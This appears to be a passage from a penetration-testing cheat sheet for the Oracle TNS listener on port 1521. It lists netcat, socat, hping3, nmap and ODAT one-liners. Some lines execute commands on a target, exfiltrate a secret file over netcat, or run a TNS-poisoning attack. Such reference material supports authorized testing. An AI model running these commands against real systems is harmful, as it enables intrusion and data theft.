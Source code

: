     ```bash
    nc <target_ip> 1521
    ```
*   **Netcat UDP Connect:** Simple test to verify port service is running and responding.

    ```bash
    nc <target_ip> 1521 -u
    ```
*   **Execute Commands:** Execute commands on target.

    ```bash
    echo "<command>" | nc <target_ip> 1521
    ```
*   **Exfiltrate Data:** Exfiltrate data over specified port.

    ```bash
    nc <target_ip> 1521 < secret_data.txt
    ```

#### \[\[SoCat Cheat Sheet]]

*   **SoCat TCP Connect:** Simple tests to verify port service is running and responding.

    ```bash
    socat - TCP:<target_ip>:1521
    ```

#### \[\[HPing3 Cheat Sheet]]

*   **Send Packet:** Send TCP packet to the service. Use `-2` to send UDP packet.

    ```bash
    hping3 <target_ip> -p 1521
    ```

#### \[\[ODAT]] (Oracle Database Attacking Tool)

*   **Scan Target:** Exploit TNS poisoning vulnerabilities in Oracle SQL Net.

    ```bash
    ./odat.py tnspoison -s <target_ip> -p 1521 --sid orcl
    ```

### Other Techniques

## Penetration Testing Techniques

### External Reconnaissance

#### Port Scanning

*   **Tool:** \[\[Nmap]]

    ```bash
    nmap <target_ip> -p 1521
    ```
* **Description:** Identifies if the target service is running on the target by scanning target port.
